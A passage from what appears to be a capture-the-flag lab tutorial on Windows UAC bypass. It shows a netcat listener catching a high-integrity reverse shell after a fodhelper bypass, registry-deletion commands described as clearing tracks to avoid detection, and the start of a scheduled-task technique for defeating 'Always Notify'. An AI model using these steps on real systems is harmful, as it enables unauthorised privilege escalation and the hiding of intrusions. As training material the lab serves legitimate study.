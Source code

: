 And we get a high integrity reverse shell:

- **Attacker's Shell**        

```shell-session
user@kali$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
        
```

To retrieve the fodhelper-curver flag, use your new shell to execute:

- **Administrator: Command Prompt**

```shell-session
C:\> C:\flags\GetFlag-fodhelper-curver.exe
        
```

**Note: Keep in mind that the flag will only be returned if you** **successfully** **bypassed UAC via fodhelper and only from the resulting high integrity shell via socat.**

### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need  to clean up after ourselves with the following commands:

```batch
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

**Note: Be sure to execute the given commands to avoid any artefact interfering with the following tasks.**

#  UAC: Environment Variable Expansion                            

### Bypassing Always Notify

As seen in the previous task, on default Windows  configurations, you can abuse applications related to the system's  configuration to bypass UAC as most of these apps have the autoElevate flag set on their manifests. However, if UAC is configured on the "Always Notify" level, fodhelper  and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate. This would prevent several known  bypass methods to be used, but not all hope is lost. 

For the following technique, we'll be abusing a scheduled task  that can be run by any user but will execute with the highest privileges available to the caller. Scheduled tasks are an exciting target. By  design, they are meant to be run without any user interaction  (independent of the UAC security level), so asking the user to elevate a process manually is  not an option. Any scheduled tasks that require elevation will  automatically get it without going through a UAC prompt.
